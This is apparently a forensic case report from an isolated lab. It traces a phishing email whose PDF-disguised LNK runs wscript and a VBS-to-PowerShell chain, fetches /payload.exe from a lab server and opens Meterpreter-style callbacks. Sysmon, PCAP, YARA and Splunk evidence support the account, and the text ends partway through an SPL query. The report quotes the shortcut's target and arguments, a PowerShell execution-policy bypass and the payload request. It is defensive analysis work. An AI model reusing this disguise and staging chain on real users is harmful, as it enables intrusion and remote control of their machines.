<div align="center">

# **DFIR-LNK-Payload-Forensics**

## **Operation BlindSight | End-to-End Phishing-to-Payload DFIR Investigation**

**LNK · VBS · PowerShell · Sysmon · PCAP · Splunk · Snort · YARA**

</div>

> **The icon said “quarterly report.” Windows said `wscript.exe`. I followed the second opinion.**

At 4:51 PM, a user-facing PDF disguise became a Windows Script Host launch. Minutes later, PowerShell was staging files and reaching a lab server. A packet capture showed an executable crossing the wire; Sysmon showed the downloaded files executing and calling back. By the time `whoami` and `hostname` appeared, the “report review” had become a full DFIR exercise.

I built **Operation BlindSight** as an isolated-lab investigation into a phishing-delivered LNK, a VBS-to-PowerShell staging chain, payload retrieval, and post-execution discovery. This is my complete case report: I document the evidence, explain how I correlated it, provide the SPL searches and Snort 3 detection, and link every screenshot and lab artifact so another analyst can retrace the investigation.

> **Handling note:** The email, archive, PCAP, and extracted content are untrusted. I treat them as forensic evidence, not as files to open casually. Reproduce the analysis in an isolated lab; do not execute samples or connect a test system to a production network.

## Case file

| Field | Case detail |
|---|---|
| **Operation** | Operation BlindSight |
| **Case ID** | OBS-2026-10-16 |
| **Anchor timestamp** | October 16, 2026, 4:51:45 PM (Sysmon `TimeCreated`; local display time in the export) |
| **Primary telemetry** | [`Sysmon_Clean_Export.csv`](./Sysmon_Clean_Export.csv) |
| **Network evidence** | [`Report_LNK_capture.pcap`](./Report_LNK_capture.pcap) |
| **Delivery evidence** | [`phish.eml`](./phish.eml), with [`Report_2026.zip`](./Report_2026.zip) attached |
| **Observed lab listener** | `192.168.56.102` (HTTP staging on TCP/8080; payload follow-on connections on TCP/4444) |
| **Observed host identity** | `DESKTOP-NJSSG0E` in the CSV `MachineName` field; the investigation records `DESKTOP-4D4AQDS` as `hostname` output |
| **Primary hunt events** | Sysmon Event ID 1 (process creation), 3 (network connection), and 11 (file creation) |

**Evidence caution:** the recorded host names do not agree. I preserve both values rather than silently selecting one; I would reconcile them against the original VM identity and collection metadata before using either as a canonical endpoint name. The lab narrative identifies the victim as `192.168.56.101`; the CSV's network events should be treated as the authority for the source address recorded in that particular export.

## How I start a hunt

I do not begin with a clever query. I begin by learning what the evidence can actually answer.

### 1. Inventory the telemetry before pivoting

The CSV contains a `TimeCreated`, `Id`, `MachineName`, `ProviderName`, and a multiline Sysmon `Message`. Its event IDs and counts are:

| Event ID | Count | What I use it to answer |
|---:|---:|---|
| 1 | 331 | Which process started, with what command line, parent, and user? |
| 2 | 2 | Were file creation times changed? |
| 3 | 28 | Which process connected to which IP and port? |
| 4 | 2 | Did Sysmon's service state change? |
| 5 | 8 | When did processes terminate? |
| 8 | 6 | Were remote-thread creation events recorded? |
| 11 | 387 | Which files were created, and by which process? |
| 12 | 15 | Which registry objects were created or deleted? |
| 13 | 840 | Which registry values were set? |
| 16 | 1 | Was Sysmon's configuration changed? |
| 22 | 29 | Which DNS queries were recorded? |

That survey matters. It tells me Event ID 3 is available for network pivots and Event IDs 12–13 may offer supporting registry context; I do not have to mistake a missing event type for a clean host. Event ID 1, 3, and 11 form the core process/network/file timeline in this case.

### 2. Turn message text into useful fields

The event body is stored in `Message`, so I use Splunk's `rex` to extract fields at search time. That keeps the hunt adaptable when a dataset has not already normalized every Sysmon property into a separate field:

- **Process lineage:** `ParentImage`, `Image`, `CommandLine`, `User`
- **File activity:** `TargetFilename`, `Image`
- **Network activity:** `Image`, `Protocol`, `SourceIp`, `SourcePort`, `DestinationIp`, `DestinationPort`

I retain the original event and timestamp as the source of truth. An extracted field is a search convenience, not a substitute for reviewing the underlying record.

### 3. Work broad-to-narrow

I first ask what is present: which event IDs, how many records, which time span, and which host. Then I filter for script, shortcut, and executable extensions; inspect interpreter lineage; pivot to connections by the same process; and return to the file drops around those connections.

That sequence helps keep an investigation evidence-led. A `powershell.exe` record alone is not a verdict. A `powershell.exe` record that writes an executable, reaches the same lab listener, and is followed by that executable making a second connection is a much better question.

### 4. Correlate in strict ±1-minute windows

For each known milestone I search a **strict ±1-minute window**: one minute before and one minute after the anchor. In Splunk, that is a two-minute interval expressed with `earliest` and `latest`. I use the CSV's recorded local display time for the examples below and check `UtcTime` inside `Message` when comparing event sources.

The initial execution anchor is approximately **4:51:45 PM**, so a corresponding window is **4:50:45–4:52:45 PM**. The first script-drop anchor is **4:52:09 PM**, and the retrieval activity centers around **4:59:29–4:59:33 PM**. The example queries retain the original case's wider process-window boundaries where those are useful to include the immediately following stage. When I rerun the searches on a new export, I replace the date, time, timezone, index, and sourcetype rather than trusting a timestamp copied from another lab.

> **Clock check:** `TimeCreated` and embedded `UtcTime` are not interchangeable. If I line up the wrong clock, my “correlation” is just two events meeting by accident.

## Initial access: the email that wanted a fast click

The message in [`phish.eml`](./phish.eml) claims to be an urgent mandatory quarterly compliance and security report. That urgency is doing social engineering's oldest job: making the attachment feel routine and the review feel overdue.

### What I found in the headers

- The visible sender is **Corporate Security Compliance** at `security-alerts@corporate-update.local`.
- The message's `Return-Path` points to `bounce@external-relay-host.net`; the message ID also names `mail.external-relay-host.net`.
- The `Received` chain includes the external relay at `198.51.100.45` and a bottom hop from `localhost` at `127.0.0.1`. A received header is a claimed transport trace that I inspect in context; loopback in a header is not, by itself, proof of the end user's origin.
- The `Authentication-Results` line records **SPF fail, DKIM fail, and DMARC fail**, with a quarantine action.
- The attached ZIP is named `Report_2026.zip`, despite the email body using a different package name in its lure text. That mismatch is another useful triage clue.

Authentication failures do not prove that an attachment is malicious, but three failures alongside a mismatched relay and an urgent lure give me excellent reasons not to trust the display name.

<table>
  <tr>
    <td align="center"><a href="./images/Retrieve_doc_from_eml_on_cyberchef.png"></a><br><strong>Email artifact recovery</strong></td>
    <td align="center"><a href="./images/Report_pdf_after_delivery.png"></a><br><strong>Delivered lure</strong></td>
  </tr>
</table>

### The “PDF” is a shortcut

The archive contains `main.vbs` and a deceptive LNK whose visible name is padded with Unicode Braille-pattern blank characters. The padding pushes the true `.lnk` extension out of easy view; a PDF-style icon reinforces the disguise. The shortcut configuration described in the case points to:

```text
Target:      C:\Windows\System32\wscript.exe
Arguments:   //nologo main.vbs
Fake path:   C:\Users\Public\Documents\Report.pdf
Icon:        C:\Windows\System32\shell32.dll,70
```

The supporting script is described as carrying hidden and system attributes. Static inspection is the safer route: identify the file by its structure, inspect its properties, and extract wide strings. The LNK header begins with `4c 00 00 00`; UTF-16LE strings expose `wscript.exe` and `//nologo main.vbs`. A filename and icon can lie; the file header is less persuasive.

<table>
  <tr>
    <td align="center"><a href="./images/lnkmaker_pdf_properties.png"></a><br><strong>LNK properties</strong></td>
    <td align="center"><a href="./images/Static_Analysis_of_Reportzip.png"></a><br><strong>Archive triage</strong></td>
    <td align="center"><a href="./images/Wireshark_file_properties.png"></a><br><strong>File properties</strong></td>
  </tr>
  <tr>
    <td align="center"><a href="./images/Static_analysis_hexdump.png"></a><br><strong>Hex analysis</strong></td>
    <td align="center"><a href="./images/Yara_rule.png"></a><br><strong>YARA detection</strong></td>
    <td></td>
  </tr>
</table>

My custom [YARA rule](./detect_lnk_vbs_payload.yar) hunts for the LNK header together with `wscript.exe`, `//nologo`, and `.vbs` strings in wide or ASCII form, regardless of case. This combination targets shortcuts that launch a VBS stager; it is a focused detection lead, not proof of maliciousness or a complete family signature.

### Initial execution lineage

The Sysmon export records Explorer launching `C:\Windows\System32\wscript.exe` with `//nologo main.vbs`. That first process edge turns the deceptive shortcut into an observable execution event. Subsequent records show `wscript.exe` creating VBS and PowerShell stagers under the user's temporary directory and launching PowerShell with `-ExecutionPolicy Bypass`.

<details>
<summary><strong>Quick check 1:</strong> What is the strongest conclusion from SPF, DKIM, and DMARC all failing?</summary>

**A.** The attachment is conclusively malware.  
**B.** The message has failed sender-authentication checks and deserves heightened scrutiny; the attachment still needs its own analysis.  
**C.** The message was definitely sent from the end user's own computer.

**Answer: B.** Authentication failures are an important risk signal, not a file verdict. I still examine the message, archive, and host evidence.
</details>

## Evidence breakdown and attack timeline

The chain I reconstructed is **LNK → VBS → PS1 → PE**. The timeline below uses the CSV's `TimeCreated` display values; embedded `UtcTime` is available in the raw messages for cross-source comparison.

| Local time | Stage | Evidence and interpretation |
|---|---|---|
| **4:51:45 PM** | User execution | Event ID 1 shows `explorer.exe` starting `wscript.exe` with `//nologo main.vbs`. |
| **4:52:09 PM** | First file staging | Event ID 11 shows `wscript.exe` creating `stage1_89906.vbs` and `code_83491.ps1` in `C:\Users\Eximius\AppData\Local\Temp\`. |
| **4:52:12 PM** | Script hand-off | Event ID 1 shows PowerShell launched with `-NoProfile -ExecutionPolicy Bypass -File ...code_83491.ps1`, with the staged VBS supplied as a target. |
| **4:53–4:58 PM** | Continued staging | Further WScript and PowerShell executions and numbered staging artifacts are present. A later command line references `excl_52342.ps1`; the case narrative describes Defender exclusion manipulation. I treat the script name and narrative as leads and would validate actual policy change against registry/Defender telemetry before asserting exactly what was changed or that a change succeeded. |
| **4:59:29–4:59:33 PM** | HTTP retrieval | Event ID 3 attributes connections to `192.168.56.102:8080` to PowerShell; Event ID 11 records `payload_20135.exe`, `payload_47273.exe`, and `payload_92141.exe` written to the temporary directory. |
| **4:59:34–4:59:35 PM** | Payload execution | Event ID 1 records numbered payload executables started by PowerShell. |
| **4:59:38–4:59:40 PM** | Follow-on network connections | Event ID 3 records the payload processes connecting to `192.168.56.102:4444`. The HTTP staging port and this follow-on port are separate behaviors. |
| **5:02:39 PM** | Discovery | Event ID 1 records `cmd.exe` launching `whoami` and `hostname`. The investigation narrative reports `DESKTOP-4D4AQDS`; the CSV `MachineName` is `DESKTOP-NJSSG0E`. |
| **5:05:32 PM** | Process termination | Event ID 5 records termination of `payload_92141.exe`. |

<table>
  <tr>
    <td align="center"><a href="./images/Meterpreter_session_opened.png"></a><br><strong>Session evidence</strong></td>
    <td align="center"><a href="./images/Meterpreter_session_priv.png"></a><br><strong>Privilege review</strong></td>
  </tr>
</table>

### What the PCAP adds

The network analysis describes a reconstructed HTTP request:

```http
GET /payload.exe HTTP/1.1
Host: 192.168.56.102:8080
Connection: Keep-Alive
```

The response is reported as `SimpleHTTP/0.6 Python/3.13.12`, with content type `application/x-msdos-program` and a body size of **7,680 bytes**. Reassembly exposed an `MZ` DOS/PE signature, the familiar “This program cannot be run in DOS mode” string, and references including `KERNEL32.dll` and `VirtualProtect`.

Here is a distinction I do not blur: **the reconstructed PCAP URI is `/payload.exe`; the Sysmon files on disk are named `payload_<number>.exe`.** They support the same download-and-execution story, but they are not the same literal path. The `/payload_` Snort rule below detects that URI pattern if it is used; I include a second rule for the exact `/payload.exe` request observed in the PCAP.

<table>
  <tr>
    <td align="center"><a href="./images/Wiresharkpcap_endpoint.png"></a><br><strong>Endpoints</strong></td>
    <td align="center"><a href="./images/wiresharkpcap_protocol_hireachy.png"></a><br><strong>Protocol hierarchy</strong></td>
    <td align="center"><a href="./images/Retrieving_payload_request.png"></a><br><strong>Retrieval request</strong></td>
  </tr>
  <tr>
    <td align="center"><a href="./images/Wireshark_payload_exe_req.png"></a><br><strong>Executable request</strong></td>
    <td align="center"><a href="./images/Payload_exe_export_wireshark.png"></a><br><strong>Stream export</strong></td>
    <td></td>
  </tr>
</table>

<details>
<summary><strong>Quick check 2:</strong> PowerShell connects to the listener, and an executable appears in Temp. What should I correlate next?</summary>

**A.** The same process's Event ID 1 execution and Event ID 3 follow-on connection, plus nearby Event ID 11 file creation.  
**B.** Only the file extension; `.exe` proves the incident.  
**C.** Ignore the process and assume every connection to a private IP is malicious.

**Answer: A.** Process, file, and network events gain meaning from their shared timeline and process context. The extension or address alone is not enough.
</details>

## Splunk threat-hunting dashboard and SPL library

The eight Splunk screenshots below preserve the investigation views; this repository does not include a portable dashboard export. I make the hunt reproducible through the SPL library here rather than pretending a screenshot is an importable dashboard. The searches assume `index=main`, `sourcetype="ReportLNK"`, and an extracted `Id` field, consistent with the investigation. They extract fields dynamically from Sysmon's multiline `Message`. I use `TimeCreated` for the table output and Splunk's indexed event time for `earliest` and `latest`; verify the timestamp configuration in your own ingest pipeline before relying on the windows.

### Event ID 11 — Hunt script, shortcut, and executable file creation

```splunk
index=main sourcetype="ReportLNK" Id=11
| rex field=Message "Image:\s+(?<Image>[^\r\n]+)"
